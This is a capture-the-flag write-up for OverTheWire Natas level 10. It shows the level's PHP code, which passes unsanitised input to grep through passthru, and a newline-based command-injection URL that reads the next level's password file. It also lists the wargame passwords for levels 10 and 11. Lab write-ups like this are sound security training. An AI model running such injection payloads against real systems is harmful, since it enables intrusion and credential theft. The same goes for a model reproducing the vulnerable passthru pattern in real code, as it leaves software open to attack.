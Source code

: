 # Natas Level 10 → Level 11
(Updated: 13 August 2025)

## Credentials
- **Username:** `natas10`
- **Password:** `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`

## Connection
Level url: [http://natas10.natas.labs.overthewire.org/](http://natas10.natas.labs.overthewire.org/)

## Steps to Solve
1. Step 1 - You can access the code by doing the shortcut `Cmd + Shift + C` (for Mac) or `Ctrl + Shift + C` (for Windows)
2. Step 2 - You can see there is a `Search bar` so we have to do something with it to get the password. Let's `View sourcecode`
3. Step 3 - Unlike level 9 this level has block `;` so we have to do something else. There is a PHP code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
**We can try different method by using `%0a` in the terminal, to stimulate exactly like the `Enter` and gets the password.**

4. Step 4 - Add `needle=anything%0acat /etc/natas_webpass/natas11` to `needle` query params in the URL => [http://natas10.natas.labs.overthewire.org/?needle=anything%0acat%20/etc/natas_webpass/natas11&submit=Search](http://natas10.natas.labs.overthewire.org/?needle=anything%0acat%20/etc/natas_webpass/natas11&submit=Search) and get the password.
- It will run 2 separate commands:
    - `grep -i anything dictionary.txt`
    - `cat /etc/natas_webpass/natas11`
5. Step 5 - Take the password to the next level.

## Next Level Password
`UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`
